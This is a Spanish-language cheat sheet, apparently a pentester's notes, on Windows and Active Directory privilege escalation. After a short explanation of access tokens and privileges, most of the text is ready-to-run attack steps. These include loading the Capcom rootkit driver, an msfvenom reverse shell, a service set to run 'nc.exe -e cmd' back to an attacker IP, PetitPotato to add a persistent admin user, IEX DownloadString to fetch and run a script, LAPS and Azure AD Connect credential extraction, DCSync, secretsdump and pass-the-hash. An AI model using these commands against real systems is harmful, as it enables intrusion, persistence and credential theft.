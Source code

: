 # Escalación de privilegios en Windows 

Tags: #AD #Windows #SeImpersonatePrivilege #SeAssignPrimaryTokenPrivilege

* [Escalacion-Privilegios-Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [Abusando de Tokens Windows - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

## Tokens de acceso 

Los tokens de acceso en Windows son estructuras de datos que almacenan la información de seguridad y de usuario asociada a un proceso o hilo. Estas estructuras son esenciales dentro del modelo de seguridad de Windows, ya que definen los derechos y privilegios asignados a un proceso o hilo específico en el sistema.

A continuación, se presentan detalles clave sobre los tokens de acceso en Windows:

```bash 
1. Tipos de Tokens: Hay dos tipos principales de tokens en Windows:
    
    - Token de usuario: Representa a un usuario que se ha autenticado con éxito. Está asociado con todos los procesos iniciados por ese usuario.
    - Token primario: Es el token asociado con un proceso cuando se inicia.
    - Token de impersonación: Permite a un hilo actuar con diferentes niveles de privilegio de su proceso contenedor. Es útil, por ejemplo, cuando un servicio necesita realizar tareas con privilegios diferentes.
        
    
2. Información en Tokens: Un token de acceso contiene información como:
    
    - Identificador de usuario (User SID): Identifica al usuario asociado con el token.
    - Grupos SID: Identifica a los grupos de los que el usuario es miembro.
    - Privilegios: Define acciones específicas que el usuario puede realizar, como apagar el sistema o cambiar la hora del sistema.
    - Tipo de token: Indica si el token es primario o de impersonación.
    - Nivel de impersonación: Si es un token de impersonation, este campo especifica el nivel (Anónimo, Identificación, Impersonación, Delegación).
    - Discretionary Access Control List (DACL): Especifica qué objetos puede acceder el portador del token y con qué permisos.
        
    
3. Impersonation: Esta es una característica clave en Windows que permite a un hilo tomar el token de otro usuario y "impersonarlo", es decir, actuar con los privilegios de ese usuario. Es útil en situaciones como servidores que necesitan acceder a recursos en nombre de un cliente.
    
4. Token Stealing: En el contexto de la seguridad, los tokens de acceso pueden ser objeto de abuso por parte de atacantes. Si un atacante logra comprometer un proceso o hilo con privilegios elevados, puede "robar" el token asociado y usarlo para impersonar a ese usuario o proceso de alto privilegio, facilitando la escalación de privilegios o el movimiento lateral.
    
5. Creación de Tokens: Los tokens de acceso se crean durante el proceso de autenticación. Cuando un usuario inicia sesión en una máquina Windows, el sistema genera un token de acceso que representa al usuario y a todos sus grupos y privilegios asociados.
    
6. Modificación de Tokens: A través de APIs específicas, es posible modificar tokens, aunque generalmente esto requiere privilegios elevados. Esta capacidad puede ser abusada por malware o atacantes para alterar los derechos y permisos de un token.
```

Los tokens de acceso desempeñan un papel fundamental en la infraestructura de seguridad de Windows. Brindan una notable flexibilidad para la gestión de identidades y accesos, aunque también pueden convertirse en un posible punto de ataque si no se manejan y protegen de forma adecuada. Por ello, es esencial que los administradores y expertos en seguridad entiendan su funcionamiento y las medidas necesarias para prevenir su uso indebido.

## Privilegios en Windows

* [Niveles de integridad - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)

En los sistemas operativos Windows, los privilegios son permisos otorgados a las cuentas de usuario y servicios, los cuales determinan las acciones que pueden ejecutarse en el sistema. Estos privilegios regulan aspectos clave de la seguridad y la administración del sistema, permitiendo desde la modificación del reloj del sistema hasta la gestión de registros y configuraciones de seguridad. A continuación, te presento una lista de los privilegios disponibles en Windows, aunque es importante tener en cuenta que esta lista puede variar ligeramente según la versión del sistema operativo.

```bash 
1. SeAssignPrimaryTokenPrivilege: Asignar un token primario a un proceso.
2. SeAuditPrivilege: Generar eventos de auditoría de seguridad.
3. SeBackupPrivilege: Omitir comprobaciones de permisos para realizar operaciones de respaldo.
4. SeChangeNotifyPrivilege: Omitir la notificación de cambio de directorio.
5. SeCreateGlobalPrivilege: Crear objetos globales.
6. SeCreatePagefilePrivilege: Crear un archivo de paginación.
7. SeCreatePermanentPrivilege: Crear objetos permanentes.
8. SeCreateSymbolicLinkPrivilege: Crear enlaces simbólicos.
9. SeCreateTokenPrivilege: Crear un token de objeto.
10. SeDebugPrivilege: Depurar programas.
11. SeEnableDelegationPrivilege: Habilitar la delegación de seguridad.
12. SeImpersonatePrivilege: Impersonar a un cliente después de la autenticación.
13. SeIncreaseBasePriorityPrivilege: Aumentar la prioridad de proceso.
14. SeIncreaseQuotaPrivilege: Aumentar cuotas de proceso.
15. SeIncreaseWorkingSetPrivilege: Aumentar el conjunto de trabajo de un proceso.
16. SeLoadDriverPrivilege: Cargar y descargar controladores de dispositivos.
17. SeLockMemoryPrivilege: Bloquear páginas en memoria.
18. SeMachineAccountPrivilege: Agregar equipos al dominio.
19. SeManageVolumePrivilege: Realizar mantenimiento de volumen.
20. SeProfileSingleProcessPrivilege: Realizar monitoreo de rendimiento.
21. SeRelabelPrivilege: Modificar etiquetas de integridad de objetos.
22. SeRemoteShutdownPrivilege: Forzar el apagado desde un sistema remoto.
23. SeRestorePrivilege: Omitir comprobaciones de permisos para realizar operaciones de restauración.
24. SeSecurityPrivilege: Administrar auditoría y registro de seguridad.
25. SeShutdownPrivilege: Apagar el sistema.
26. SeSyncAgentPrivilege: Sincronizar datos de directorio.
27. SeSystemEnvironmentPrivilege: Modificar la configuración del entorno del firmware.
28. SeSystemProfilePrivilege: Realizar monitoreo de rendimiento del sistema.
29. SeSystemtimePrivilege: Cambiar la hora del sistema.
30. SeTakeOwnershipPrivilege: Tomar propiedad de archivos u otros objetos.
31. SeTcbPrivilege: Actuar como parte del sistema operativo.
32. SeTimeZonePrivilege: Cambiar la zona horaria.
33. SeTrustedCredManAccessPrivilege: Acceder a credenciales guardadas de manera segura.
34. SeUndockPrivilege: Desacoplar el sistema de la base.
35. SeUnsolicitedInputPrivilege: Leer la entrada no solicitada del terminal interactivo.
```  

Cada uno de estos privilegios otorga la capacidad de realizar acciones concretas en el sistema que pueden influir en su configuración, seguridad y funcionamiento general. Los administradores del sistema deben gestionar y asignar estos privilegios con cuidado para garantizar la seguridad y el correcto desempeño de los sistemas Windows.

## Privilegios Windows para escalar 

```bash 
❯ whoami /priv        # Muestra los privilegios del usuario actual 
```

```powershell 
1. 'SeLoadDriverPrivilege' = Permite 'cargar drivers firmados' que se ejecutan con permisos del 'kernel (ring 0)'. Si puedes cargar un 'driver malicioso' (uno que eleva privilegios), te puedes convertir en 'NT AUTHORITY\SYSTEM' o incluso ejecutar código arbitrario en el núcleo


Pasos:
❯ https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp    # Copiar el codigo en Visual studio creando un nuevo proyecto 'Aplicación de consola'. Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'EoPLoadDriver.exe' a la máquina Windows comprometida
❯ https://github.com/FuzzySecurity/Capcom-Rootkit/tree/master/Driver    # Descargar el archivo 'Capcom.sys' y transferirlo a la máquina Windows comprometida
❯ .\EoPLoadDriver.exe System\CurrentControlSet\MyService C:\Windows\Temp\Capcom.sys  # Cargar el driver y debe de mostrar 'NTSTATUS: 00000000, WinError: 0'
❯ https://github.com/tandasat/ExploitCapcom   # Descargar el proyecto completo en zip para abrirlo desde Visual Studio. Modificar la linea de 'LaunchShell' y colocar "C:\\ProgramData\\reverse.exe". Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'ExploitCapcom.exe' a la máquina Windows comprometida
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o reverse.exe  # Crear el archivo al cual llamará 'ExploitCapcom.exe' al momento de ejecutarse y transferirlo a la máquina Windows comprometida
❯ .\ExploitCapcom.exe        # Ejecutar el archivo en Windows y obtener la revershell en Kali 

Notas:
	1. Si al momento de compilar da un error, eliminar '#include "stdafx.h"' y volverlo a compilar
	2. La ruta donde compila los archivos la muestra en la consola 
	3. Para obtener la revershell se debe estar en escucha con 'Netcat'
```

```powershell
2. 'SetImpersonatePrivilege' = Abusando de 'SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege'. Si un usuario tiene los privilegios antes mencionados se puede aprovechar para obtener acceso a nivel de SYSTEM


Pasos:
❯ https://github.com/wh0amitz/PetitPotato/releases/tag/v1.0.0   # Descargar el archivo y transferirlo a la máquina Windows comprometida 
❯ PetitPotato.exe 3 cmd         # Crear una cmd con rl usuario 'NT Authority\System' 
	# EfsID = '3' es el numero de API a usar
❯ PetitPotato.exe 3 "whoami"    # Ejecutar un comando  
❯ PetitPotato.exe 3 "net user omar P4ssw0rd /add"               # Crear un user siendo 'NT Authority\System'
❯ PetitPotato.exe 3 "net localgroup Administrators omar /add"   # Agregar el usuario al grupo 'Administrators'
❯ PetitPotato.exe 3 "net user Omar"                             # Mirar el grupo de un usuario en especifico

Notas:
	1. Despues de crear un usuario para tener persistencia, podemos ingresar a con RDP si esta abierto el puerto '3389'
	2. También se pude utilizar 'RottenPotato o JuicyPotato'
```

## Grupos Windows para escalar 

```bash 
❯ net user <user>     # Mirar los grupos del usuario 
```

```powershell
1. 'Azure Admins' = Si puedes acceder a Azure AD Connect desde un usuario del grupo 'Azure Admins', puedes extraer credenciales privilegiadas y 'escalar a Domain Admin'.


Pasos: 
❯ https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0   # Descargar el archivo AdDecrypt.zip y extraer su contenido para obtener 'AdDecrypt.exe, mcrypt.dll' y transferir los archivos a la máquina Windows comprometida
❯ 'C:\Program Files\Microsoft Azure AD Sync\Bin'  # Ir a la siguiente ruta y ejecutar el 'AdDecrypt.exe'
❯ AdDecrypt.exe -FullSQL      # Ejecutar la herramienta para extraer credenciales del usuario Admin 

Notas: 
	1. El AdDecrypt.exe y mcrypt.dll se deben de encontrar en la misma carpeta
```

```powershell 
2. 'Server Operators' = Si pertenece a este grupo en un sistema Windows, se tiene ciertos privilegios elevados 'localmente' sobre los servidores y se puede 'iniciar, detener, configurar, crear, reiniciar realizar backups' sobre los servicios existentes.


Pasos:
❯ nc.exe     # Descargar y tranferir el archivo a la máquina Windows comprometida para hacer la Revershell
❯ services   # Mirar todos los servicios que se estan ejecutando 
❯ sc.exe create <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Crear un servicio 
❯ sc.exe config <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Modificar un servicio 
❯ sc.exe stop <service>         # Detener un servicio 
❯ sc.exe start <service>        # Iniciar un servicio 
```

```powershell 
3. 'LAPS_Readers' =  Los miembros del grupo 'LAPS\Readers' tienen 'permiso de lectura' sobre los atributos de Active Directory donde se almacenan las 'contraseñas locales administradas automáticamente'. Por lo tanto, se puede leer la contraseña del administrador local de las máquinas unidas al dominio, conectarte con esa contraseña y tomar el control de la máquina como 'administrador local'.


Pasos:
❯ https://github.com/kfosaaen/Get-LAPSPasswords   # Descargar 'Get-LAPSPasswords.ps1' y y transferirlo a la máquina Windows comprometida
❯ IEX (New-Object Net.WebClient).DownloadString('https://IP/Get-LAPSPasswords.ps1')  # Importar el modulo 
❯ Get-LAPSPasswords          # Ejecutar la función para obtener la password de Administrator
```


```powershell
4. 'Account Operators' = Si se esta en el grupo con 'GenericAll' sobre 'Exchange Windows Permissions' se puede crear un usuario y agregarlo al grupo. Además, si se tiene un usuario en el grupo 'Exchange Windows Permissions' con 'WriteDacl', se puede ejecutar un DCSync sobre el dominio para obtener los hashes de todos los usuarios y hacer un Pass-The-Hash


Pasos:
❯ net user omar P4ssw0rd /add /domain       # Crear un usuario a nivel de dominio por pertenecer al grupo 'Account Operators'
❯ net group "Exchange Windows Permissions" omar /add     # Agregar al usuario al grupo 'Exchange Windows Permissions'
❯ net group        # Mirar los grupos existentes 
❯ net user omar    # Mirar la info del usuario 


# Agregar el privilegio de DCSync al usuario  
❯ $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
	# password = Contraseña del usuario 
❯ $Cred = New-Object System.Management.Automation.PSCredential('domain1.local\user', $SecPassword)
❯ Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=domain1,DC=local" -PrincipalIdentity user -Rights DCSync 
	# user = Usuario que se agrego en la variable $Cred

Notas: 
	1. El comando de 'Add-DomainObjectAcl' solo se puede ejecutar cuando se carga el módulo de 'PowerView.ps1'


# Hacer DCSync desde Kali 
❯ impacket-secretsdump domain1.local/user@IP-DC    # Ejecutar el DCSync con el usuario creado
	# IP-DC = La dirección IP del DC  
❯ impacket-psexec domain1.local/Administrator@IP cmd.exe -hashes :hash   # Utilizar 'psexec' para ingresar con el usuario 'Administrator' haciendo 'Pass-The-Hash'    
```